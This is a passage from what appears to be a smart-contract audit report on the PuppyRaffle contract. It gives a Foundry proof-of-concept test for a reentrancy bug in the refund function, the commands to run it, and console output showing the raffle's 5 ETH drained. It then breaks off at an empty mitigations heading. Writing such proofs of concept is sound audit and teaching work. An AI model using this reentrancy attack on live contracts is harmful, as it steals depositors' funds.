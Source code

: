 ``` solidity

function testReentrancyRefund() public playerEntered {
        address[] memory players = new address[](4);
        players[0] = makeAddr("playerOne-1");
        players[1] = makeAddr("playerTwo-2");
        players[2] = makeAddr("playerThree-3");
        players[3] = makeAddr("playerFour-4");
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttack attackContract = new ReentrancyAttack(address(puppyRaffle));
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 1 ether);

        uint256 initialBalance = address(attackContract).balance;
        uint256 initialPuppyBalance = address(puppyRaffle).balance;

        vm.prank(attacker);
        attackContract.attack{value: entranceFee}();

        console.log("Initial attacker balance:", initialBalance);
        console.log("Initial PuppyRaffle balance:", initialPuppyBalance);

        console.log("Attacker balance after attack:", address(attackContract).balance);
        console.log("PuppyRaffle balance after attack:", address(puppyRaffle).balance);
    }
```
#### Steps to run the test

1. Install packages and Compile project:

```bash
make 
```

1. Run the test:

```bash
forge test --mt testReentrancyRefund -vvv
```

Console output:

```
Ran 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[PASS] testReentrancyRefund() (gas: 727346)
Logs:
  Initial attacker balance: 0 ETH
  Initial PuppyRaffle balance: 5 ETH
  Attacker balance after attack: 6 ETH
  PuppyRaffle balance after attack: 0 ETH
```

### Recommended Mitigations

